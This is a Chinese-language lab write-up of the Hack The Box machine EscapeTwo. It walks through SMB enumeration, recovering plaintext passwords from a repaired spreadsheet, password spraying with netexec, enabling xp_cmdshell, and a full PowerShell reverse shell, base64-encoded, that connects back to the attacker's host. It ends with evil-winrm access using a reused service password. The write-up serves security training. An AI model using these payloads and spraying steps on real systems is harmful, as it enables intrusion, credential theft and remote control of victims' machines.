

## EscapeTwo
#### ESC4
#### 作者0xdf有讲到（Certipy版本4.8.2）到本文发布（Certipy 5.0.2）的区别
#### ca_svc 是 Cert Publishers（证书发布者）组的成员
https://0xdf.gitlab.io/2025/05/24/htb-escapetwo.html
```
[★]$ nmap -sC -sV 10.129.63.253 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-16 02:18 CST
Nmap scan report for 10.129.63.253
Host is up (0.0096s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-16 08:19:05Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-16T08:20:24+00:00; -3s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-16T08:20:24+00:00; -3s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.63.253:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-01-16T08:15:29
|_Not valid after:  2056-01-16T08:15:29
|_ssl-date: 2026-01-16T08:20:24+00:00; -3s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.63.253:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-16T08:20:24+00:00; -3s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2026-01-16T08:20:24+00:00; -3s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-16T08:19:48
|_  start_date: N/A
|_clock-skew: mean: -3s, deviation: 0s, median: -3s
```
#### 加入域名
```
[★]$ echo '10.129.63.253 sequel.htb dc01.sequel.htb' | sudo tee -a /etc/hosts
10.129.63.253 sequel.htb dc01.sequel.htb
```
#### As is common in real life Windows pentests, you will start this box with credentials for the following account:
#### rose / KxEPkKe6R8su
```
[★]$ netexec smb 10.129.63.253 -u rose -p 'KxEPkKe6R8su' --shares
<SNIP>
SMB         10.129.63.253   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.63.253   445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB         10.129.63.253   445    DC01             [*] Enumerated shares
SMB         10.129.63.253   445    DC01             Share           Permissions     Remark
SMB         10.129.63.253   445    DC01             -----           -----------     ------
SMB         10.129.63.253   445    DC01             Accounting Department READ  
SMB         10.129.63.253   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.63.253   445    DC01             C$                              Default share
SMB         10.129.63.253   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.63.253   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.63.253   445    DC01             SYSVOL          READ            Logon server share
SMB         10.129.63.253   445    DC01             Users           READ
```
#### 我们看到我们已经读取了对会计部门共享的访问权限，我们继续进行枚举smbclient。
```
[★]$ impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.63.253
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# whoami
*** Unknown syntax: whoami
# shares
Accounting Department
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
Users
# use Accounting Department
# ls
drw-rw-rw-          0  Sun Jun  9 06:11:31 2024 .
drw-rw-rw-          0  Sun Jun  9 06:11:31 2024 ..
-rw-rw-rw-      10217  Sun Jun  9 06:11:31 2024 accounting_2024.xlsx
-rw-rw-rw-       6780  Sun Jun  9 06:11:31 2024 accounts.xlsx
# get accounting_2024.xlsx
# get accounts.xlsx
# exit
```
#### 查看内容，我们看到两个Excel表格。如果我们试图打开accounts.xlsx，我们就知道了它被破坏了
#### 使用file检查它的文件类型，我们看到它是一个zip文件。文件命令有帮助根据文件的内容而不是扩展名来确定文件的实际类型文件系统、魔法和语言测试
```
[★]$ file accounts.xlsx
accounts.xlsx: Zip archive data, made by v2.0, extract using at least v2.0, last modified, last modified Sun, Jun 09 2024 10:47:44, uncompressed size 681, method=deflate
[★]$ file accounting_2024.xlsx
accounting_2024.xlsx: Zip archive data, made by v4.5, extract using at least v2.0, last modified, last modified Sun, Jan 01 1980 00:00:00, uncompressed size 1284, method=deflate
```
#### 如果我们尝试使用7z（一个命令行归档实用程序）打开该文件，我们会遇到另一个错误以处理多种压缩格式而闻名，包括7z和ZIP。
```
★]$ 7z x accounts.xlsx

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,128 CPUs AMD EPYC 7543 32-Core Processor                 (A00F11),ASM,AES-NI)

Scanning the drive for archives:
1 file, 6780 bytes (7 KiB)

Extracting archive: accounts.xlsx
WARNING:
accounts.xlsx
The archive is open with offset

--
Path = accounts.xlsx
Warning: The archive is open with offset
Type = zip
Physical Size = 6780

ERROR: Headers Error : xl/_rels/workbook.xml.rels
                                 
Sub items Errors: 1

Archives with Errors: 1

Sub items Errors: 1
```
#### 我们继续使用十六进制编辑器检查Excel文件的幻数，这是一个工具允许我们查看和编辑文件的原始二进制内容，我们看到它是50 48 04 03
```
[★]$ open accounts.xlsx  //乱码
```
#### 创建文件解压它
```
[★]$ mkdir accounts
[★]$ cd accounts/
[~/accounts][★]$ unzip ../accounts.xlsx   
[~/accounts][★]$ ls
'[Content_Types].xml'   docProps   _rels   xl
[~/accounts][★]$ cd xl
[~/accounts/xl][★]$ ls
sharedStrings.xml  styles.xml  theme  workbook.xml  worksheets

[~/accounts/xl][★]$ ls worksheets/
_rels  sheet1.xml
[~/accounts/xl][★]$ less worksheets/sheet1.xml
<SNIP>...
</sheetData><hyperlinks><hyperlink ref="C2" r:id="rId1" display="angela@sequel.htb"/><hyperlink ref="C3" r:id="rId2" display="oscar@sequel.htb"/><hyperlink ref="C4" r:id="rId3" display="kevin@sequel.htb"/><hyperlink ref="C5" r:id="rId4" display="sa@sequel.htb"/>
...</SNIP>

[~/accounts/xl][★]$ ls
sharedStrings.xml  styles.xml  theme  workbook.xml  worksheets
[~/accounts/xl][★]$ less sharedStrings.xml
<SNIP>...
<si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si>
..</SNIP>

[~/accounts/xl][★]$ cat sharedStrings.xml | sed 's/space="preserve">/\n/g'
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:
First Name</t></si><si><t xml:
Last Name</t></si><si><t xml:
</SNIP>

[~/accounts/xl][★]$ cat sharedStrings.xml | sed 's/space="preserve">/\n/g' | sed 's/<.*//g' > ../../output.txt
[★]$ grep -E '^[a-zA-Z0-9._%+-]+@sequel\.htb$|^[A-Za-z0-9@!#\$%\^&\*]+' ../../output.txt | paste - - - | awk '{print $1":"$3}'
First:Last
Username:Angela
Martin:angela
0fwz7Q4mSpurIt99:Martinez
oscar@sequel.htb:86LxLBMgEWaKUnBG
Kevin:kevin@sequel.htb
kevin:NULL
sa@sequel.htb:MSSQLP@ssw0rd!
```
```
[★]$ grep -E '^[a-zA-Z0-9._%+-]+@sequel\.htb$|^[A-Za-z0-9@!#\$%\^&\*]+' ../../output.txt \
| paste - - - \
| sed '1,2d; s/ .*/:&/; s/:.* //'
Martin	angela@sequel.htb	angela
0fwz7Q4mSpurIt99	Oscar	Martinez
oscar@sequel.htb	oscar	86LxLBMgEWaKUnBG
Kevin	Malone	kevin@sequel.htb
kevin	Md9Wlq1E5bZnVDVo	NULL
sa@sequel.htb	sa	MSSQLP@ssw0rd!
```
#### 有些用户是没有密码的，能不能从 ‘邮箱用户名密码’ 这样的结构里提取{print $1":"$3}
```
[★]$ awk '
/@sequel\.htb$/ {
    email = $0
    pass = ""
    next
} 

/^[A-Za-z0-9@!#\$%\^&\*]{6,}$/ && email {
    pass = $0
    print email ":" pass
    email = ""
}
' output.txt
angela@sequel.htb:angela
oscar@sequel.htb:86LxLBMgEWaKUnBG
kevin@sequel.htb:Md9Wlq1E5bZnVDVo
sa@sequel.htb:MSSQLP@ssw0rd!

//看到邮箱 → 保存到变量 ； next：继续读下一行 ； 此时 awk 进入“等待 password”状态
//至少 6 位； 包含特殊字符（弱排除名字）； 并且必须已经捕获 email； 防止串到下一个用户
```
#### 用户和密码分开
```
[★]$ awk '
/@sequel\.htb$/ {
    email = $0
    pass = ""
    next
} 

/^[A-Za-z0-9@!#\$%\^&\*]{6,}$/ && email {
    pass = $0
    print email ":" pass
    email = ""
}
' output.txt > user_password.txt
★]$ cat user_password.txt
angela@sequel.htb:angela
oscar@sequel.htb:86LxLBMgEWaKUnBG
kevin@sequel.htb:Md9Wlq1E5bZnVDVo
sa@sequel.htb:MSSQLP@ssw0rd!
[★]$ awk -F'[@:]' '{print $1}' user_password.txt > users.txt
[★]$ cat user.txt
angela
oscar
kevin
sa
[★]$ awk -F: '{print $2}' user_password.txt > passwords.txt
[★]$ cat password.txt
angela
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
```
```
//可以学习的一个点
$ cat accounts/xl/sharedStrings.xml | xmllint --xpath '//*[local-name()="t"]/text()' - | awk 'ORS=NR%5?",":"\n"'; echo

//解析：
xmllint --xpath '//*[local-name()="t"]/text()' -

【1】xmllint：一个常见的 XML 工具（libxml2 自带）；
【2】--xpath 'EXPR'：根据 XPath 表达式抽取节点或节点值并打印
【3】//*[local-name()="t"]/text()：//*：匹配文档中所有节点（不管名字空间）
local-name()="t"：只选择本地名字为 t 的节点（Excel 的 sharedStrings 中文本节点通常是 <t>，用 local-name() 可以避开 XML 命名空间问题）
/text()：取这些 <t> 节点的文本节点（纯文本）
最后的 -：告诉 xmllint 从标准输入读取 XML（因为前面用了 cat）

| awk 'ORS=NR%5?",":"\n"'

这是 awk 的一段简写程序（没有显式的模式或动作），行为要点：
【1】NR：awk 的内置变量，表示当前记录（行）号，从 1 开始递增
【2】ORS：输出记录分隔符（Output Record Separator），awK 输出每行后会打印 ORS（默认是 \n）
【3】'ORS=NR%5?",":"\n"'：每读一行就把 ORS 重新设置为：
如果 NR % 5 非零（即该行不是第 5 的倍数），ORS 设为 ,（逗号）；
如果 NR % 5 == 0（第 5、10、15...行），ORS 设为换行 \n

; echo
awk 的这段写法可能在最后一行后并不会输出一个额外的换行（例如当最后一个 ORS 被设为逗号时），echo 在命令末尾的作用就是确保终端上有一个结尾换行，让输出看起来整洁。也有些人直接写 printf '\n'

[~/accounts/xl][★]$ cat sharedStrings.xml | xmllint --xpath '//*[local-name()="t"]/text()' - | awk 'ORS=NR%5?",":"\n"'; echo
First Name,Last Name,Email,Username,Password
Angela,Martin,angela@sequel.htb,angela,0fwz7Q4mSpurIt99
Oscar,Martinez,oscar@sequel.htb,oscar,86LxLBMgEWaKUnBG
Kevin,Malone,kevin@sequel.htb,kevin,Md9Wlq1E5bZnVDVo
NULL,sa@sequel.htb,sa,MSSQLP@ssw0rd!,
```
https://en.wikipedia.org/wiki/List_of_file_signatures
#### 修改文件
```
[★]$ xxd accounts.xlsx | head -1
00000000: 5048 0403 1400 0808 0800 f655 c958 0000  PH.........U.X..
[★]$ xxd accounting_2024.xlsx | head -1
00000000: 5048 0403 1400 0600 0800 0000 2100 4137  PH..........!.A7

[★]$ printf '\x50\x4B\x03\x04' | dd of=accounts.xlsx bs=1 seek=0 count=4 conv=notrunc
4+0 records in
4+0 records out
4 bytes copied, 9.4096e-05 s, 42.5 kB/s
[★]$ printf '\x50\x4B\x03\x04' | dd of=accounting_2024.xlsx bs=1 seek=0 count=4 conv=notrunc
4+0 records in
4+0 records out
4 bytes copied, 9.2253e-05 s, 43.4 kB/s
\\of=accounts.xlsx:输出文件 | bs=1:每次写 1 字节 | seek=0:从第 0 字节开始写
\\ count=4:写 4 个字节 | conv=notrunc:不截断文件（只覆盖，不删后面内容）

[★]$ xxd accounts.xlsx | head -1
00000000: 504b 0304 1400 0808 0800 f655 c958 0000  PK.........U.X..
[★]$ xxd accounting_2024.xlsx | head -1
00000000: 504b 0304 1400 0600 0800 0000 2100 4137  PK..........!.A7

[★]$ open accounts.xlsx
```
#### 在smb,用户oscar:86LxLBMgEWaKUnBG成功了
```
[★]$ netexec smb dc01.sequel.htb -u users.txt -p passwords.txt --continue-on-success
<SNIP>
SMB         10.129.65.178   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.65.178   445    DC01             [-] sequel.htb\angela:angela STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\oscar:angela STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\kevin:angela STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\sa:angela STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\angela:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
SMB         10.129.65.178   445    DC01             [-] sequel.htb\kevin:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\sa:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\angela:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\kevin:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\sa:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\angela:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\kevin:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\sa:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE
```
#### 在mssql上，得到了管理员账户
```
[★]$ netexec mssql dc01.sequel.htb -u users.txt -p passwords.txt --continue-on-success --local-auth | grep -F [+]
MSSQL                    10.129.65.178   1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
//--local-auth 本地/NTLM式的认证流程 ｜ (Pwn3d!) ： “被成功利用/登录”
```
### mssqlclient.py为MSSQL内网横向标准工具：
#### SQL Server → Windows SYSTEM API //远程调用 Windows CreateProcess() 
```
[★]$ mssqlclient.py 'sequel.htb/sa:MSSQLP@ssw0rd!@dc01.sequel.htb'
<SNIP>
SQL (sa  dbo@master)> xp_cmdshell whoami
ERROR(DC01\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online. //xp_cmdshell仍然处于禁用状态
SQL (sa  dbo@master)> 
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> 
SQL (sa  dbo@master)> 
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL             


```
#### 或者用netexec，它会启用该功能并自动运行命令：
```
[★]$ netexec mssql dc01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth -x whoami
MSSQL       10.129.65.178   1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.129.65.178   1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.129.65.178   1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.129.65.178   1433   DC01             sequel\sql_svc
```
#### 从 https://www.revshells.com/ 获取一个'PowerShell #3 (Base64)' 反向 shell 反向 shell ，并使用以下命令运行它
#### 编码体系错位:❗ Base64 必须是 UTF-16LE 编码后的内容,而 revshells 默认给你的是：UTF-8 → Base64
#### 所以自己手动转，不使用网站
#### 直接生成 TCP 反弹：自己转 UTF-16LE，BASE64 必须来自 UTF-16LE //powershell的反弹Base64 必须是 UTF-16LE 编码后的内容
```
[★]$ echo '$client = New-Object System.Net.Sockets.TCPClient("10.10.14.190",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' \
| iconv -t UTF-16LE | base64 -w 0
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA5ADAAIgAsADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAAoA
```
#### 首先侦听
```
[*]$ sudo nv -lvnp 9001
```
#### payload输入
```
SQL (sa  dbo@master)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA5ADAAIgAsADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAAoA
```
#### 收到反弹
```
[*]$ sudo nv -lvnp 9001

S C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

PS C:\users> tree /f /a
Folder PATH listing
Volume serial number is 3705-289D
C:.
+---Administrator
+---Public
|   +---Accounting Department
|   |       accounting_2024.xlsx
|   |       accounts.xlsx
|   |       
|   +---Documents
|   +---Downloads
|   +---Music
|   +---Pictures
|   \---Videos
+---ryan
\---sql_svc
    +---Desktop
    +---Documents
    +---Downloads
    +---Favorites
    +---Links
    +---Music
    +---Pictures
    +---Saved Games
    \---Videos
PS C:\users>

//该sql-Configuration.INI文件设有密码：
PS C:\SQL2019\ExpressAdv_ENU> cat sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```
### 共享密码
#### 会更新用户列表，把ryan加进去，然后把新密码喷洒出去：
```
[★]$ echo 'ryan' >> users.txt

[★]$ netexec smb dc01.sequel.htb -u users.txt -p WqSZAF6CysDQbGb3 --continue-on-success
SMB         10.129.65.178   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.65.178   445    DC01             [-] sequel.htb\angela:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\kevin:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [-] sequel.htb\sa:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
SMB         10.129.65.178   445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3

[★]$ netexec winrm dc01.sequel.htb -u  ryan -p WqSZAF6CysDQbGb3
WINRM       10.129.65.178   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
WINRM       10.129.65.178   5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)

[★]$ evil-winrm -u ryan -p WqSZAF6CysDQbGb3 -i dc01.sequel.htb
                                        
Evil-WinRM shell v3.5
*Evil-WinRM* PS C:\Users\ryan\Desktop> dir


    Directory: C:\Users\ryan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/17/2026  10:01 PM             34 user.txt
```
